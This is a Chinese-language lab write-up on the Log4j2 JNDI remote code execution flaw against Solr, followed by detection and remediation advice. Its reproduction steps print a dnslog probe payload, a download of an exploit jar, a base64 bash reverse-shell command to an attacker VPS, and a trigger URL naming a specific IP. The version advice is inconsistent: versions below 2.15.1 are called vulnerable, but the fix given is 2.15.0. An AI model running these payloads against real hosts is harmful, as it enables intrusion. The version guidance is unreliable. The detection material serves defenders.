 ### Log4j2远程代码执行漏洞复现及漏洞修复

利用版本:

  * 2.0到2.14.1版本

#### 漏洞复现

  1. 漏洞触发点:`http://103.116.46.7:8983/solr/admin/cores?action=`

  2. 漏洞探测:`http://103.116.46.7:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.sxy8s9.dnslog.cn}`  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134905.png)

  3. 下载工具进行反弹shell`wget https://security-1258894728.cos.ap-beijing.myqcloud.com/writeup/vulhub/log4j/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar`

  4. 运行`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YOUR-BASE64-ENCODE}|{base64,-d}|{bash,-i}" -A "YOUR-ATTACK-VPS-IP"`

  5. 方式一:网址输入:`http://103.116.46.7:8983/solr/admin/cores?action=${jndi:ldap://YOUR-ATTACK-VPS-IP:1389/Exploit}`

  6. 方式二将上方抓包改为POST传参

  7. 结果  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134906.png)

#### 检测手段

  1. 相关用户可根据Java jar解压后是否存在org/apache/logging/log4j相关路径结构，判断是否使用了存在漏洞的组件，若存在相关Java程序包，则很可能受漏洞影响。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134907.png)

  2. 若程序使用Maven打包，可查看项目的pom.xml文件中是否存在下图所示的相关字段，若版本号为小于2.15.1，则应用受漏洞影响。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134908.png)

  3. 若程序使用gradle打包，可查看build.gradle编译配置文件，若在dependencies部分存在org.apache.logging.log4j相关字段，且版本号为小于2.15.1，则应用受漏洞影响。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134909.png)

攻击排查:

  1. 攻击者在利用漏洞前通常采用dnslog方式进行扫描、探测，常见的漏洞利用方式可通过应用系统报错日志中的`"javax.naming.CommunicationException"、"javax.naming.NamingException: problem generating object using object factory"、"Error looking up JNDI resource"`关键字进行排查。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134910.png)

  2. 攻击者发送的数据包中可能存在"${jndi:}" 字样，推荐使用全流量或WAF设备进行检索排查。  
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230217134911.png)

#### 修复建议

##### 将 log4j-core 升级到 2.15.0 版本
